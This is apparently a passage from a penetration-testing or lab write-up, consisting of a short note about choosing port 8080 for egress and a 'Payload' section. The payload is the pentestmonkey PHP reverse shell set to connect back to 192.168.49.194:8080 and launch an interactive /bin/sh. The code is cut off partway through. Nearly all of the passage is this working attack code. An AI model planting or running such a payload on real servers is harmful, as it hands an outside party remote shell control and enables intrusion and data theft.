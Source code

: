 Note : Some struggle with the port, we use 8080 are another server is running with this port on the machine so it has been supposed that the traffic on this port is allowed.

##### Payload : 

```php
<?php
    // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '192.168.49.194';
    $port = 8080;
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;

    if (function_exists('pcntl_fork')) {
    	$pid = pcntl_fork();

    	if ($pid == -1) {
    		printit("ERROR: Can't fork");
    		exit(1);
    	}

    	if ($pid) {
    		exit(0);  // Parent exits
    	}
    	if (posix_setsid() == -1) {
    		printit("Error: Can't setsid()");
    		exit(1);
    	}

    	$daemon = 1;
    } else {
    	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

    chdir("/");

    umask(0);

    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
    	printit("$errstr ($errno)");
    	exit(1);
    }

    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );

    $process = proc_open($shell, $descriptorspec, $pipes);

    if (!is_resource($process)) {
    	printit("ERROR: Can't spawn shell");
```